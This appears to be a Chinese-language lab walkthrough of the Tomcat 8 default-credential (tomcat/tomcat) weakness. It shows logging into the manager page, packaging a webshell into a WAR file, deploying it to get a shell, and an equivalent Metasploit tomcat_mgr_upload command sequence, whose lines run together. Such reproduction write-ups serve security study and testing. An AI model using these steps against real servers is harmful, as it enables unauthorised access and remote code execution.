 # 弱口令&war远程部署

## 漏洞原理

在tomcat8环境下默认进入后台的密码为tomcat/tomcat，未修改造成未授权即可进入后台

## 漏洞复现

进入`tomcat8`的docker环境

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

访问后台管理地址，使用tomcat/tomcat进入后台

```
http://192.168.1.8:8080//manager/html
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibkfD8Rk9Sviar3cMaK7QWNwxx6SicTkovVAYz2QdxicYVPgSiagkfGrjQUZMXGXia0vAGoym1AAnvibaiag/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

进入到了后台的页面

![图片](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibkfD8Rk9Sviar3cMaK7QWNws7HAUWZ6fWuzicBpQE5VoPrTYFtYygbiag0vgaHTQaw83jnJ9FTibkW4Q/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

看到这里有一个上传war包的地方，这里很多java的中间件都可以用war远程部署来拿shell，tomcat也不例外

![图片](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibkfD8Rk9Sviar3cMaK7QWNwFdibdPdFEXTpRYFicgGiaevB6qIcnNvnRy1QLiaiaKUbumJdylJP6oJMdMg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

首先将ice.jsp打包成test.war

```
jar -cvf test.war .
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

点击上传即可看到上传的test.war已经部署成功

![图片](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibkfD8Rk9Sviar3cMaK7QWNw9bQyG8kGpvWmROZeUwlSpM8cfjszLT2wyUTZ9lNdQRGECkNBSsvWyQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

访问一下没有报错404那么应该已经上传成功

![图片](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibkfD8Rk9Sviar3cMaK7QWNwS7JNNezsibLvs1DLR3L5YW7nvzjibRu9a8oIVcy5gg4oYVJ9GHAqMFPg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

使用冰蝎连接即可得到shell

![图片](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibkfD8Rk9Sviar3cMaK7QWNwf6H8XW9kqgQ1Yw01jhtwOdLtxicId6E7o9nMx858DUk6mP6s3LY1OWQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

这里也可以用msf里面的`exploit/multi/http/tomcat_mgr_upload `模块

```
use exploit/multi/http/tomcat_mgr_uploadset HttpPassword tomcatset HttpUsername tomcatset rhost 192.168.1.8set rport 8080run
```
